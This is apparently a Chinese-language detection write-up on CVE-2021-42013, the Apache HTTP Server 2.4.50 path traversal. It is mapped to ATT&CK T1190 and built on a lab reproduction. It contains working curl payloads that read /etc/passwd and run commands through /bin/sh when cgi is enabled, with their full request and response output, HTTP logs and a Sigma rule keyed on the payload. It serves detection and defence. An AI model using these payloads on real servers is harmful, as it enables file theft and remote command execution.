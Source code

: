 # T1190-CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

## 漏洞详情

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用.%%32%65进行绕过（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到/etc/passwd：

```yml
curl -v --path-as-is http://10.211.55.10:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:33:12 GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

```yml
curl -v --data "echo;id" 'http://10.211.55.10:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:34:09 GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

## 检测日志

HTTP.log

```http.log
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:09 GMT
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:11 GMT
Server: Apache/2.4.50 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

## 测试复现

可参考漏洞详情部分

## 检测规则/思路

### sigma规则

```yml
title: CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md
detection:
    selection:
        cs-method: 
            - 'GET' #请求方法为GET
            - 'POST' #请求方法为POST
        c-uri: '.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

也可以根据自己实际需求，编写suricata规则。

流量包下载位置:<https://pan.baidu.com/s/1m-rysxGIeMVfZNIBuaRa2Q>

提取码:0wff

### 建议

建议使用HTTP流量+安全设备(如天眼等)进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md>
